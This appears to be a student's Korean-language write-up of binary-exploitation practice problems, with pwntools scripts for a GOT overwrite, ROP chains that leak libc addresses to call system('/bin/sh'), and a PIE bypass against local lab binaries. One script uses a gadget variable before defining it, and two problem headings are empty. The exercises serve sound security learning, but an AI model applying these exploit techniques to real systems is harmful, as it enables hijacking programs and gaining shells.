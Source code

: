 # rop


## problem 1

GOT Overwrite를 하는 문제이다. 포인터를 통해 puts의 GOT를 gift의 주소로 변경하면 puts함수를 실행할 때 gift로 점프해 실행하도록 만들 수 있다. gdb를 통해 디버깅하여 puts의 GOT와 gift함수의 주소를 알 수 있다. 

```python
from pwn import *

p = process('./got_overwrite')

puts_got = 0x404018
gift = 0x4011d6

p.recvuntil(b"addr: ")
p.sendline(str(puts_got))
p.recvuntil(b"value: ")
p.sendline(str(gift))

p.interactive()
```


## problem 3

ROP 문제로, 주어진 printf 함수의 실제 주소를 활용하여 system과 '/bin/sh'의 주소를 찾을 수 있다. 가젯의 주소를 찾기 위해서 pie를 우회해야 하는데, 

```python

from pwn import *

p = process('./onegadget')
e = ELF('./onegadget')
libc = e.libc
rop = ROP(e)

p.recvuntil(b'printf Function is at: ')
printf_addr = int(p.recv(14), 16)

libc_base = printf_addr - libc.symbols['printf']
system_addr = libc_base + libc.symbols['system']
binsh = libc_base + list(libc.search(b'/bin/sh'))[0]

payload = b'A'*0x20
payload += b'B'*0x8
payload += p64(pop_rdi)
payload += p64(binsh)
#payload += p64(pop_rdi+1)
payload += p64(system_addr)

pie_base = printf_addr - 0x1040

pop_rdi = pie_base + (rop.find_gadget(['pop rdi', 'ret']))[0]

log.info("libc base : %s"%hex(libc_base))
log.info("system addr : %s"%hex(system_addr))
log.info("pop rdi: %s"%hex(pop_rdi))


payload = b'A'*0x20
payload += b'B'*0x8
payload += p64(pop_rdi)
payload += p64(binsh)
#payload += p64(pop_rdi+1)
payload += p64(system_addr)

p.sendline(payload)

p.interactive()

```




## problem 3-2

마찬가지로 ROP 문제이다. puts를 이용하여 puts 함수의 실제 주소를 구하고, 이를 바탕으로 system과 '/bin/sh'의 주소를 구한다. payload에 main함수의 주소를 추가하여 다시 반복하게 한 뒤에 pop_rdi, binsh, system_addr를 보내면 쉘을 얻을 수 있다.

```python

from pwn import *

p = process("./rop2")
e = ELF("./rop2")
libc = e.libc

puts_plt = 0x401060
puts_got = 0x404018
pop_rdi = 0x401283
main = 0x4011cf

p.recvuntil(b'buf:')

payload = b'A'*1024
payload += b'B'*0x8

payload += p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(main)

p.sendline(payload)

puts_addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))

libc_base = puts_addr - libc.symbols['puts']
system_addr = libc_base + libc.symbols['system']
binsh = libc_base + list(libc.search(b'/bin/sh'))[0]

log.info("libc base : %s"%hex(libc_base))


payload = b'A'*1024
payload += b'B'*0x8
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(system_addr)

p.sendline(payload)

p.interactive()


```



## problem 4

pie를 우회하는 문제이다. main addr에서 main의 offset을 빼서 pie base를 구한 뒤 win의 실제 주소를 구하고 그것을 ret에 덮어쓰면 된다.


```python

from pwn import *

p = process('./simple_pie_32')
e = ELF('./simple_pie_32')
libc = e.libc

p.recvuntil(b'at: 0x')
main_addr = int(p.recvline(), 16)
pie_base = main_addr - 0x122d
win_addr = pie_base + 0x1291

payload = b'A'*0x1c
payload += b'A'*0x4
payload += p32(win_addr)


p.sendline(payload)

p.interactive()

```



## problem 5






## problem 6






